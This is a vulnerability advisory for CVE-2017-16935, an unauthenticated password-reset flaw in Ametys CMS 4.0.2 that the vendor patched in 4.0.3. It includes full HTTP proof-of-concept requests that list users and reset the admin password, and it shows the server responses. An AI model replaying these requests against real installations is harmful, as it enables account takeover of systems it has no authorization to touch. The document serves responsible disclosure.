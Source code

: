 ## Vulnerability Summary
The following advisory describes a password reset vulnerability found in Ametys CMS version 4.0.2

Ametys is “a free and open source content management system (CMS) written in Java. It is based on JSR-170 for content storage, Open Social for gadget rendering and a XML oriented framework.”

## Credit
An independent security researcher, Jose Luis, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
Ametys has released patches to address this vulnerability – Ametys version 4.0.3

For more details: https://issues.ametys.org/browse/RUNTIME-2582

CVE-2017-16935

## Vulnerability details
User controlled input is not sufficiently sanitized. Unauthenticated user can perform administrative operations without properly authorization.

Ametys CMS only checks the authorization if the request includes /cms/ in the web request.

By that, we can reset any password of users, including administrator users

## Proof of Concept
By sending the following POST request, we can obtain the list of users:

```
POST /plugins/core-ui/servercomm/messages.xml HTTP/1.1
Host: 192.168.196.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.196.128:8080/cms/www/index.html
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 213
Cookie: JSESSIONID=
Connection: close

content={"0":{"pluginOrWorkspace":"core","responseType":"text","url":"users/search.json","p

arameters":{"contexts":["/sites/www","/sites-
fo/www"],"criteria":"","limit":100,"page":1,"start":0}}}}&context.parameters={}
```

The server then will response with:

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-Cocoon-Version: 2.1.13-dev
Content-Type: text/xml
Date: Tue, 03 Oct 2017 13:52:15 GMT
Connection: close
Content-Length: 1875

<?xml version="1.0" encoding="UTF-8"?><responses><response id="0" code="200"
duration="946">{"users":[{"firstname":"Simple","sortablename":"Contributor
Simple","populationLabel":"Ametys Demo
Users","populationId":"ametys_demo_users","fullname":"Simple
Contributor","login":"contrib","directory":"SQL
database","email":"contrib@example.com","lastname":"Contributor"},{"firstname":"User1","s

ortablename":"User1 User1","populationLabel":"FO Demo Users","populationId":"fo-demo-
users","fullname":"User1 User1","login":"user1@ametys.org","directory":"SQL

database","email":"user1@ametys.org","lastname":"User1"},{"firstname":"User3","sortablena

me":"User3 User3","populationLabel":"FO Demo Users","populationId":"fo-demo-
users","fullname":"User3 User3","login":"user3@ametys.org","directory":"SQL

database","email":"user3@ametys.org","lastname":"User3"},{"firstname":"Webmaster","sorta
blename":"User Webmaster","populationLabel":"Ametys Demo
Users","populationId":"ametys_demo_users","fullname":"Webmaster
User","login":"webmaster","directory":"SQL
database","email":"webmaster@example.com","lastname":"User"},{"firstname":"Manager","s
ortablename":"User Manager","populationLabel":"Ametys Demo
Users","populationId":"ametys_demo_users","fullname":"Manager
User","login":"manager","directory":"SQL
database","email":"manager@example.com","lastname":"User"},{"firstname":"Administrator"
,"sortablename":"User Administrator","populationLabel":"Ametys Demo
Users","populationId":"ametys_demo_users","fullname":"Administrator
User","login":"admin","directory":"SQL
database","email":"admin@example.com","lastname":"User"},{"firstname":"User2","sortable

name":"User2 User2","populationLabel":"FO Demo Users","populationId":"fo-demo-
users","fullname":"User2 User2","login":"user2@ametys.org","directory":"SQL

database","email":"user2@ametys.org","lastname":"User2"}]}</response></responses>
```

The value of the field “populationId” and “login”, we need these values for the next request

Now, we need perform another request to change the password of the admin user:

```
POST /plugins/core-ui/servercomm/messages.xml HTTP/1.1
Host: 192.168.196.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.196.128:8080/cms/www/index.html
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 345
Cookie: JSESSIONID=
Connection: close

content={"0":{"pluginOrWorkspace":"core-ui","responseType":"text","url":"client-
call","parameters":{"role":"org.ametys.plugins.core.user.UserDAO","methodName":"editUser"

,"parameters":["ametys_demo_users",{"login":"admin","password":"MYNEWPASSWORD","fi
rstname":"Administrator","lastname":"User","email":"admin@example.com"}]}}}&context.par
ameters={}
```

Once we have performed the request, the response is:

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-Cocoon-Version: 2.1.13-dev
Content-Type: text/xml
Date: Tue, 03 Oct 2017 13:52:59 GMT
Connection: close
Content-Length: 374

<?xml version="1.0" encoding="UTF-8"?><responses><response id="0" code="200"
duration="110">{"firstname":"Administrator","sortablename":"User
Administrator","populationLabel":"Ametys Demo
Users","populationId":"ametys_demo_users","fullname":"Administrator
User","login":"admin","directory":"SQL
database","email":"admin@example.com","lastname":"User"}</response></responses>
```

Now you can log in as Admin with password MYNEWPASSWORD